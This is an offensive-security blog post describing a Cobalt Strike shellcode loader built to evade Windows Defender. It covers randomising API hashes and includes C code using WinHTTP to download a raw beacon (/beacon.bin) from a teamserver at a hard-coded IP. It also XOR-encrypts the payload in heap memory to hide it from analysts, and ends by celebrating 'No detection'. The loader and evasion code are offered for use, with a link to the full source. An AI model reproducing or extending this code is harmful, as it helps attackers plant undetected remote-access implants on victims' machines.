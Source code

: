 ```yaml
---
title: Shellcodes are dead, long live Fileless Shellcodes
updated: 2023-02-05 22:07
---
```


Recently I was developing a simple Shellcode Loader which uses Callbacks as an alternative of Shellcode execution. While it bypasses every runtime scanning, it failed to bypass the signature detection. So I fired up [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) to identify the bad bytes:

![bad_bytes_threatcheck](https://cdn-images-1.medium.com/max/800/1*KwJR9m_Ua3ujyGbK4GcSTw.png)

At a first glance, it is impossible to understand what exactly is getting detected so I fired up [GHidra](https://ghidra-sre.org/) to manually identify these bad bytes. I simply copied a random pattern from the ThreadCheck (**00 1F CC 07 00 15 CC 07**) and tried searching in the memeory of the compiled EXE of the malware.

![ghidra_in_action](https://cdn-images-1.medium.com/max/800/1*UroW7mIted_uXKaqoQ20og.png)

This is clearly the XORed Shellcode I implemented to my Shellcode Loader and it's getting detected as a Cobalt Strike agent by Defender. Seems like the XOR encryption routine is not strong enough againts static detection and that got me thinking: are stored shellcodes really dead (especially the ones generated from Cobalt Strike)?
I wouldn't be suprised, as currently Cobalt Strike is [the most popular C2 framework](https://twitter.com/teamcymru_S2/status/1604091964386705409?s=20) among threat actors, but something must be done to make the Shellcode great and undetectable again.

## RAW Shellcodes: What's wrong with them?

Cobalt Strike’s payloads are based on Meterpreter shellcodes and include many similarities (sometimes identical) API hashing ([x86](https://github.com/rapid7/metasploit-framework/blob/04e8752b9b74cbaad7cb0ea6129c90e3172580a2/external/source/shellcode/windows/x86/src/block/block_api.asm) and [x64](https://github.com/rapid7/metasploit-framework/blob/04e8752b9b74cbaad7cb0ea6129c90e3172580a2/external/source/shellcode/windows/x64/src/block/block_api.asm) versions).

The [default Hashes]() that Cobalt Strike uses are highly signatured; we can get a workaround to such hashes by performing a [dynamic Hash encoding](https://www.huntress.com/blog/hackers-no-hashing-randomizing-api-hashes-to-evade-cobalt-strike-shellcode-detection). If you look at the image below, the hash value `0xa779563a` is the default hash of **InternetOpenA**. If you simply google the hash, everything related to Metaploit will show up, so this hash is known to be mostly used by Cobalt Strike beacons and Meterpreter agents. Applying ror13 hashing to such hashes will drastically reduce the detection by AV vendors (to almost 0). As this is already nicely explain on [this article](https://www.huntress.com/blog/hackers-no-hashing-randomizing-api-hashes-to-evade-cobalt-strike-shellcode-detection), I'm not going to explain it much further, but the photo below gives the idea of the final result after encoding the hashes. 

![cs_hashes](https://cdn-images-1.medium.com/max/800/1*B6Q4LXM_BP9fMW4ceu_3Lg.png)

## Fileless Shellcode to the rescue

Although it is not a new thing, fileless shellcodes are a good way of avoiding signature detection is by retrieving a shellcode from the internet. This way you will solve the problem of large entropy and any possible signature detection.
On the photo below, there is a comparison between a traditional XORed encrypted shellcode and our fileless shellcode loader. Since the shellcode doesn't have to be stored on .text section, the entropy will descrease drastically (remember that ):

![entropy_comparison](https://cdn-images-1.medium.com/max/800/1*5KjsCjd7bwYLlqjf-CGB2A.png)

The full source code can be found [here](https://github.com/kleiton0x00/RemoteShellcodeExec/), but on this article I will try to break down the code for the sake of understanding.

In order to request the shellcode from the HTTP Server, I will be using  `winhttp` library. Alternatively you can use sockets, based on some researches it might be a better solution which might results on lower runtime detection. The code below is a basic one (it's shorten for understanding purposes) for requesting and retrieving the HTTP Response body of the request (which is the raw shellcode), which basically is going to be stored on a vectored array:

```c
    // Initialize WinHTTP 
    hInternet = WinHttpOpen(NULL, WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
    printf("[+] WinHTTP initialized\n");

    // Connect to the HTTP server 
    hHttpSession = WinHttpConnect(hInternet, L"192.168.0.60", 80, 0); //192.168.0.60:8081
    printf("[+] Connected to HTTP Server\n");

    // Open an HTTP request 
    hHttpRequest = WinHttpOpenRequest(hHttpSession, L"GET", L"/beacon.bin", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);
    printf("[+] Sending HTTP GET Request\n");

    // Send a request 
    bResults = WinHttpSendRequest(hHttpRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
    printf("[+] WinHTTP request sent\n");

    // Wait for the response 
    bResults = WinHttpReceiveResponse(hHttpRequest, NULL);
    printf("[+] Response retrieved\n");

    do
    {
        dwSize = 0;
        if (!WinHttpQueryDataAvailable(hHttpRequest, &dwSize))
        {
            printf("Error %u in WinHttpQueryDataAvailable.\n", GetLastError());
        }

        // Allocate space for the buffer.
        pszOutBuffer = new char[dwSize + 1];

        // No more available data 
        if (!pszOutBuffer) {
            printf("[-] No more available data");
            dwSize = 0;
        }

        // Read the Data.
        ZeroMemory(pszOutBuffer, dwSize + 1);

        if (!WinHttpReadData(hHttpRequest, (LPVOID)pszOutBuffer,
            dwSize, &dwDownloaded))
            printf("Error %u in WinHttpReadData.\n", GetLastError());
        else
            PEbuf.insert(PEbuf.end(), pszOutBuffer, pszOutBuffer + dwDownloaded);

    } while (dwSize > 0);


    char* PE = (char*)malloc(PEbuf.size());
    for (int i = 0; i < PEbuf.size(); i++) {
        PE[i] = PEbuf[i];
    }

    // Close the HTTP request 
    WinHttpCloseHandle(hHttpRequest);

    // Close the session 
    WinHttpCloseHandle(hHttpSession);

    // Cleanup 
    WinHttpCloseHandle(hInternet);
```

## There is always place for encryption

Notice the following part:

```c
    char* PE = (char*)malloc(PEbuf.size());
    for (int i = 0; i < PEbuf.size(); i++) {
        PE[i] = PEbuf[i];
    }
```

The shellcode retrieve from the teamserver is stored in the heap, making it easy for the blue-team to analyze the heap and discover what's inside (clearly our unencrypted shellcode):

![shellcode_written_in_memory](https://cdn-images-1.medium.com/max/800/1*UVRHyvNkqqNV5H6kdcNSHA.png)

Additionally, encrypting the shellcode in Heap is always a better idea:

```c
    char* PE = (char*)malloc(PEbuffer.size());
    for (int i = 0; i < PEbuf.size(); i++) {
        PE[i] = PEbuffer[i] ^ 0x7e; //XOR encrypted
    }

    XOR(PE, PEbuffer.size(), key);
```

Where **XOR** is a basic function which decrypts the array: 
```c
void XOR(char* data, int len, unsigned char key) {
    int i;
    for (i = 0; i < len; i++)
        data[i] ^= key;
}

## Profit

1. Entropy is drastically reduced.
2. No detection (Profit!)

<video src="https://i.imgur.com/U8LjkcA.mp4" controls="controls"></video>
